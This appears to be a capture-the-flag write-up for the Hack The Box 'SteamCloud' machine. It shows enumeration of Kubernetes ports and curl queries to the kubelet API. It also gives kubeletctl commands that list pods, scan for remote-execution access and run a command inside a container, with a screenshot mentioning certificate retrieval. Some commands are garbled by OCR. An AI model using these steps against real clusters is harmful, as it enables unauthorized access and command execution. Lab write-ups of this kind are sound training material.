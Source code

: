 # nmap
##  nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/nmap-all-ports.png)
Theres a bunch of Kubernets related services and ports:
2379: etcd-client
2380: etcd-server
10250: https-alt: Kubelet --> Kubernetes extension
8443: Kubernetes API 
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubernetes%20assigned%20prts.png)

##  Kubernetes API port: 8443
````
curl https:##  steamcloud.htb:8443 -k

`````
Access is denied
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubernetes%20API%20enum.png)

##  receive pods (containers) file from Kubelet API on port 10250
````

curl https:##  steamcloud.htb:10250/pods -k

````

One receives all the pods from K8s cluster
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20pods%20file%20snippet.png)

# kubeletctl
To interact with the pods use kubeletctl client

##  List pods on server
````
./kubeletctl --server steamcloud.htb pods

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20pods%20on%20server.png)

##  Scan if any nodes allow to execute commands
````
./kubeletctl --server steamcloud.htb scan rce

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20scan%20pods%20for%20remote%20commands.png)

Execute command: id on nginx server
````

kubeletctl --server steamclout.htb exec "id" --pod nginx --container nginx
````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20execute%20remote%20command.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/SteamCloud/screenshots/Kubelet%20retrieve%20certificate.png)











XXXXXXXXXXXXX